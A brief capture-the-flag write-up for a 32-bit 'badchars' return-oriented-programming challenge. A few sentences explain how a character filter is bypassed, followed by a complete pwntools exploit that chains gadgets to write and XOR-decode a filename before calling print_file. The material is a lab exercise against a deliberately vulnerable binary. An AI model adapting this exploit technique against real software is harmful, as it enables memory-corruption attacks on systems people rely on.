


pwnme check the buffer after read to see if some particular character is included

to bypass this, we can hash the flag address in some way to bypass the check





with some convenient gadgets that exist withing the binary, the job is easily done

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./badchars32")

context.binary = exe
context.log_level = "debug"
context.arch="i386"

script = '''
b*print_file
c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    pop_ebx=0x0804839d
    pop_ebp=0x080485bb
    pop_esi_pop_edi_pop_ebp=0x080485b9
    movIediI_esi=0x0804854f
    xorIebpI_bl=0x08048547
    buffer=b"A"*0x2c
    addr=0x804a800

    payload=flat(
        buffer,

        pop_esi_pop_edi_pop_ebp,
        0x5a501918,
        addr,
        0,
        movIediI_esi,

        pop_esi_pop_edi_pop_ebp,
        0x42185157,
        addr+0x4,
        0,
        movIediI_esi,

        pop_esi_pop_edi_pop_ebp,
        0x424e,
        addr+0x8,
        0,
        movIediI_esi,

        exe.plt["pwnme"]
    )

    r.recvuntil("> ")
    r.send(payload)

    payload=flat(
        buffer,

        pop_ebx,
        0x36,
        pop_ebp,
        addr,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x1,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x2,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x3,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x4,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x5,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x6,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x7,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x8,
        xorIebpI_bl,

        pop_ebx,
        0x36,
        pop_ebp,
        addr+0x9,
        xorIebpI_bl,

        exe.plt["print_file"],
        0,
        addr
    )

    r.recvuntil("> ")
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```